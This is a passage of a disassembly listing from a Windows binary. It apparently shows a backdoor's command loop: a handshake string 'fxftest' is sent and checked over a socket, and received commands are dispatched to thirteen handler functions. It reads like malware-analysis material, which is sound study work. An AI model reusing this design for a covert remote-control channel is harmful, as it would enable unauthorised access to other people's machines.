        0040161b 68 30 75        PUSH       0x7530
                 00 00
        00401620 ff 15 80        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00009866
                 90 40 00
        00401626 89 75 fc        MOV        dword ptr [EBP + local_8],ESI
        00401629 e9 d9 fe        JMP        LAB_00401507
                 ff ff
                             LAB_0040162e                                    XREF[1]:     0040160c(j)
        0040162e a1 20 a1        MOV        EAX,[s_fxftest_0040a120]                         = "fxftest"
                 40 00
        00401633 8b 0d 24        MOV        ECX,dword ptr [s_est_0040a120+4]                 = "est"
                 a1 40 00
        00401639 89 45 e0        MOV        dword ptr [EBP + local_24],EAX
        0040163c 89 4d e4        MOV        dword ptr [EBP + local_20],ECX
        0040163f 8d 7d e0        LEA        EDI=>local_24,[EBP + -0x20]
        00401642 8b ce           MOV        ECX,ESI
        00401644 33 c0           XOR        EAX,EAX
        00401646 33 d2           XOR        EDX,EDX
        00401648 f2 ae           SCASB.RE   ES:EDI
        0040164a 89 55 e9        MOV        dword ptr [EBP + local_1b],EDX
        0040164d 8b 3d 68        MOV        EDI,dword ptr [->WS2_32.DLL::Ordinal_19]         = 80000013
                 91 40 00
        00401653 f7 d1           NOT        ECX
        00401655 66 89 55 ed     MOV        word ptr [EBP + local_17],DX
        00401659 49              DEC        ECX
        0040165a 52              PUSH       EDX
        0040165b 51              PUSH       ECX
        0040165c 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401662 8d 45 e0        LEA        EAX=>local_24,[EBP + -0x20]
        00401665 50              PUSH       EAX
        00401666 51              PUSH       ECX
        00401667 c6 45 e8 00     MOV        byte ptr [EBP + local_1c],0x0
        0040166b 88 55 ef        MOV        byte ptr [EBP + local_15],DL
        0040166e ff d7           CALL       EDI=>WS2_32.DLL::Ordinal_19
        00401670 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        00401675 8b 1d 40        MOV        EBX,dword ptr [->WS2_32.DLL::Ordinal_16]         = 80000010
                 91 40 00
        0040167b 6a 00           PUSH       0x0
        0040167d 8d 55 e8        LEA        EDX=>local_1c,[EBP + -0x18]
        00401680 6a 08           PUSH       0x8
        00401682 52              PUSH       EDX
        00401683 50              PUSH       EAX
        00401684 ff d3           CALL       EBX=>WS2_32.DLL::Ordinal_16
        00401686 8d 4d e0        LEA        ECX=>local_24,[EBP + -0x20]
        00401689 6a 07           PUSH       0x7
        0040168b 8d 55 e8        LEA        EDX=>local_1c,[EBP + -0x18]
        0040168e 51              PUSH       ECX
        0040168f 52              PUSH       EDX
        00401690 e8 0b 1a        CALL       _strncmp                                         int _strncmp(char * _Str1, char
                 00 00
        00401695 83 c4 0c        ADD        ESP,0xc
        00401698 85 c0           TEST       EAX,EAX
        0040169a 74 08           JZ         LAB_004016a4
        0040169c 89 75 fc        MOV        dword ptr [EBP + local_8],ESI
        0040169f e9 63 fe        JMP        LAB_00401507
                 ff ff
                             LAB_004016a4                                    XREF[1]:     0040169a(j)
        004016a4 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        004016aa 6a 00           PUSH       0x0
        004016ac 8d 85 88        LEA        EAX=>local_57c,[EBP + 0xfffffa88]
                 fa ff ff
        004016b2 68 00 02        PUSH       0x200
                 00 00
        004016b7 50              PUSH       EAX
        004016b8 51              PUSH       ECX
        004016b9 ff d7           CALL       EDI=>WS2_32.DLL::Ordinal_19
                             switchD_00401703::default                       XREF[14]:    00401701(j), 00401719(j),
                                                                                          00401731(j), 00401748(j),
                                                                                          00401763(j), 00401776(j),
                                                                                          00401791(j), 004017a4(j),
                                                                                          004017bf(j), 004017d2(j),
                                                                                          004017ed(j), 00401800(j),
                                                                                          00401814(j), 0040182e(j)
        004016bb b9 41 00        MOV        ECX,0x41
                 00 00
        004016c0 33 c0           XOR        EAX,EAX
        004016c2 8d bd d8        LEA        EDI=>local_12c,[EBP + 0xfffffed8]
                 fe ff ff
        004016c8 f3 ab           STOSD.REP  ES:EDI
        004016ca a1 c0 a0        MOV        EAX,[DAT_0040a0c0]                               = 00000001h
                 40 00
        004016cf 85 c0           TEST       EAX,EAX
        004016d1 0f 85 74        JNZ        LAB_0040184b
                 01 00 00
        004016d7 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        004016dc 6a 00           PUSH       0x0
        004016de 8d 95 d8        LEA        EDX=>local_12c,[EBP + 0xfffffed8]
                 fe ff ff
        004016e4 68 04 01        PUSH       0x104
                 00 00
        004016e9 52              PUSH       EDX
        004016ea 50              PUSH       EAX
        004016eb ff d3           CALL       EBX=>WS2_32.DLL::Ordinal_16
        004016ed 85 c0           TEST       EAX,EAX
        004016ef 0f 8e 56        JLE        LAB_0040184b
                 01 00 00
        004016f5 8b 8d d8        MOV        ECX,dword ptr [EBP + local_12c]
                 fe ff ff
        004016fb 8d 41 ff        LEA        EAX,[ECX + -0x1]
        004016fe 83 f8 0c        CMP        EAX,0xc
        00401701 77 b8           JA         switchD_00401703::default
                             switchD_00401703::switchD
        00401703 ff 24 85        JMP        dword ptr [EAX*0x4 + switchD_00401703::switchd   = 0040170a
                 84 18 40 00
                             switchD_00401703::caseD_1                       XREF[2]:     00401703(j), 00401884(*)
        0040170a 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401710 52              PUSH       EDX
        00401711 e8 aa 01        CALL       FUN_004018c0                                     undefined FUN_004018c0(undefined
                 00 00
        00401716 83 c4 04        ADD        ESP,0x4
        00401719 eb a0           JMP        switchD_00401703::default
                             switchD_00401703::caseD_2                       XREF[2]:     00401703(j), 00401888(*)
        0040171b 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401721 8d 85 dc        LEA        EAX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        00401727 50              PUSH       EAX
        00401728 51              PUSH       ECX
        00401729 e8 f2 02        CALL       FUN_00401a20                                     undefined FUN_00401a20(undefined
                 00 00
        0040172e 83 c4 08        ADD        ESP,0x8
        00401731 eb 88           JMP        switchD_00401703::default
                             switchD_00401703::caseD_3                       XREF[2]:     00401703(j), 0040188c(*)
        00401733 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        00401738 8d 95 dc        LEA        EDX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        0040173e 52              PUSH       EDX
        0040173f 50              PUSH       EAX
        00401740 e8 0b 09        CALL       FUN_00402050                                     undefined FUN_00402050(undefined
                 00 00
        00401745 83 c4 08        ADD        ESP,0x8
        00401748 e9 6e ff        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_4                       XREF[2]:     00401703(j), 00401890(*)
        0040174d 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401753 8d 8d dc        LEA        ECX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        00401759 51              PUSH       ECX
        0040175a 52              PUSH       EDX
        0040175b e8 40 09        CALL       FUN_004020a0                                     undefined FUN_004020a0(undefined
                 00 00
        00401760 83 c4 08        ADD        ESP,0x8
        00401763 e9 53 ff        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_5                       XREF[2]:     00401703(j), 00401894(*)
        00401768 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        0040176d 50              PUSH       EAX
        0040176e e8 7d 09        CALL       FUN_004020f0                                     undefined FUN_004020f0(undefined
                 00 00
        00401773 83 c4 04        ADD        ESP,0x4
        00401776 e9 40 ff        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_6                       XREF[2]:     00401703(j), 00401898(*)
        0040177b 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401781 8d 8d dc        LEA        ECX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        00401787 51              PUSH       ECX
        00401788 52              PUSH       EDX
        00401789 e8 82 0a        CALL       FUN_00402210                                     undefined FUN_00402210(undefined
                 00 00
        0040178e 83 c4 08        ADD        ESP,0x8
        00401791 e9 25 ff        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_7                       XREF[2]:     00401703(j), 0040189c(*)
        00401796 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        0040179b 50              PUSH       EAX
        0040179c e8 6f 0b        CALL       FUN_00402310                                     undefined FUN_00402310(void)
                 00 00
        004017a1 83 c4 04        ADD        ESP,0x4
        004017a4 e9 12 ff        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_8                       XREF[2]:     00401703(j), 004018a0(*)
        004017a9 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        004017af 8d 8d dc        LEA        ECX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        004017b5 51              PUSH       ECX
        004017b6 52              PUSH       EDX
        004017b7 e8 84 0c        CALL       FUN_00402440                                     undefined FUN_00402440(void * th
                 00 00
        004017bc 83 c4 08        ADD        ESP,0x8
        004017bf e9 f7 fe        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_9                       XREF[2]:     00401703(j), 004018a4(*)
        004017c4 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        004017c9 50              PUSH       EAX
        004017ca e8 c1 0c        CALL       FUN_00402490                                     undefined FUN_00402490(undefined
                 00 00
        004017cf 83 c4 04        ADD        ESP,0x4
        004017d2 e9 e4 fe        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_a                       XREF[2]:     00401703(j), 004018a8(*)
        004017d7 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        004017dd 8d 8d dc        LEA        ECX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        004017e3 51              PUSH       ECX
        004017e4 52              PUSH       EDX
        004017e5 e8 76 0e        CALL       FUN_00402660                                     undefined FUN_00402660(void)
                 00 00
        004017ea 83 c4 08        ADD        ESP,0x8
        004017ed e9 c9 fe        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_b                       XREF[2]:     00401703(j), 004018ac(*)
        004017f2 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        004017f7 50              PUSH       EAX
        004017f8 e8 23 0e        CALL       FUN_00402620                                     undefined FUN_00402620(undefined
                 00 00
        004017fd 83 c4 04        ADD        ESP,0x4
        00401800 e9 b6 fe        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_c                       XREF[2]:     00401703(j), 004018b0(*)
        00401805 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        0040180b 51              PUSH       ECX
        0040180c e8 6f 10        CALL       FUN_00402880                                     undefined FUN_00402880(undefined
                 00 00
        00401811 83 c4 04        ADD        ESP,0x4
        00401814 e9 a2 fe        JMP        switchD_00401703::default
                 ff ff
                             switchD_00401703::caseD_d                       XREF[2]:     00401703(j), 004018b4(*)
        00401819 a1 80 aa        MOV        EAX,[DAT_0040aa80]
                 40 00
        0040181e 8d 95 dc        LEA        EDX=>local_128,[EBP + 0xfffffedc]
                 fe ff ff
        00401824 52              PUSH       EDX
        00401825 50              PUSH       EAX
        00401826 e8 95 10        CALL       FUN_004028c0                                     undefined FUN_004028c0(undefined
                 00 00
        0040182b 83 c4 08        ADD        ESP,0x8
        0040182e e9 88 fe        JMP        switchD_00401703::default
                 ff ff
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined * __stdcall Catch@00401833(void)
                               assume FS_OFFSET = 0xffdff000
             undefined *       EAX:4          <RETURN>
                             Catch@00401833                                  XREF[1]:     0040966c(*)
        00401833 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401839 51              PUSH       ECX
        0040183a ff 15 3c        CALL       dword ptr [->WS2_32.DLL::Ordinal_3]              = 80000003
                 91 40 00
        00401840 b8 60 18        MOV        EAX,DAT_00401860                                 = 83h
                 40 00
        00401845 c3              RET
```
